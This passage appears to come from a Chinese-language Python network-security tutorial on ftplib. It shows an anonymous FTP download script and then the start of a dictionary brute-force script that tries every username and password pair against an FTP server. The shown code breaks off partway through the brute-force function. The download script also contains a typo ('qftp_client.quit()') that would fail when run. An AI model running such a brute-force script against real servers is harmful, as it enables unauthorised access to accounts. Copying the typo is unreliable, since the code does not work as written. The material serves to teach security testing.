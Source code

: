 `FTP()`类以远程服务器、`ftp`用户的用户名和密码作为参数。

在这个例子中，我们连接到一个 FTP 服务器，以从`ftp.be.debian.org`服务器下载一个二进制文件。

在以下脚本中，我们可以看到如何连接到一个**匿名**FTP 服务器并下载二进制文件，而无需用户名和密码。

你可以在文件名为`ftp_download_file.py`中找到以下代码：

```py
#!/usr/bin/env python
import ftplib
FTP_SERVER_URL = 'ftp.be.debian.org'
DOWNLOAD_DIR_PATH = '/pub/linux/network/wireless/'
DOWNLOAD_FILE_NAME = 'iwd-0.3.tar.gz'

def ftp_file_download(path, username):
    # open ftp connection
    ftp_client = ftplib.FTP(path, username)
    # list the files in the download directory
    ftp_client.cwd(DOWNLOAD_DIR_PATH)
    print("File list at %s:" %path)
    files = ftp_client.dir()
    print(files)
    # download a file
    file_handler = open(DOWNLOAD_FILE_NAME, 'wb')
    ftp_cmd = 'RETR %s' %DOWNLOAD_FILE_NAME
    ftp_client.retrbinary(ftp_cmd,file_handler.write)
    file_handler.close()
    qftp_client.quit()

if __name__ == '__main__':
    ftp_file_download(path=FTP_SERVER_URL,username='anonymous')
```

# 使用 ftplib 来暴力破解 FTP 用户凭据

这个库的主要用途之一是检查 FTP 服务器是否容易受到使用字典的暴力攻击。例如，使用这个脚本，我们可以对 FTP 服务器执行使用用户和密码字典的攻击。我们测试所有可能的用户和密码组合，直到找到正确的组合。

当连接时，如果我们得到"`230 Login successful`"字符串作为答复，我们就会知道这个组合是一个好的组合。

你可以在文件名为`ftp_brute_force.py`中找到以下代码：

```py
import ftplib
import sys

def brute_force(ip,users_file,passwords_file):
    try:
        ud=open(users_file,"r")
        pd=open(passwords_file,"r")

        users= ud.readlines()
        passwords= pd.readlines()

        for user in users:
            for password in passwords:
                try:
                    print("[*] Trying to connect")
                    connect=ftplib.FTP(ip)
                    response=connect.login(user.strip(),password.strip())
                    print(response)
                    if "230 Login" in response:
                        print("[*]Sucessful attack")
                        print("User: "+ user + "Password: "+password)
                        sys.exit()
                    else:
```
